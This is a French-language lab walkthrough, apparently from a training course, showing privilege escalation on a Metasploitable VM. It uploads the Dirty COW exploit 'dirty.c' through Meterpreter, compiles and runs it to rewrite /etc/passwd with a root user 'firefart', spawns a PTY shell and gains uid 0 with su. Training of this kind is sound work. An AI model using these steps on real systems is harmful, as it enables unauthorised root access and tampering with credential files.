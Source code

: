 On peut déposer le fichier avec la commande __`upload`__ :

```bash
meterpreter > cd /tmp/
meterpreter > upload dirty.c
[*] uploading  : /home/formation/exp/meta2/exploit/dirty.c -> dirty.c
[*] Uploaded -1.00 B of 4.70 KiB (-0.02%): /home/formation/exp/meta2/exploit/dirty.c -> dirty.c
[*] uploaded   : /home/formation/exp/meta2/exploit/dirty.c -> dirty.c
```

On suit après les instructions de l'exploit pour le compiler :

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Et on peut ensuite l'exécuter pour créer un utilisateur avec les droits admin :

```bash
meterpreter > shell
Process 25390 created.
Channel 6 created.
python -c "import pty;pty.spawn('/bin/bash')"

postgres@metasploitable:/tmp$ ./dirty password
./dirty password
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7f51000
^C
Terminate channel 6? [y/N]  y
```

Et on créer un nouveau shell pour se connecter avec `su` :

```bash
meterpreter > shell
Process 25403 created.
Channel 7 created.

su firefart  
su: must be run from a terminal

python -c "import pty;pty.spawn('/bin/bash')"

postgres@metasploitable:/tmp$ su firefart
su firefart
Password: password

firefart@metasploitable:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)
```
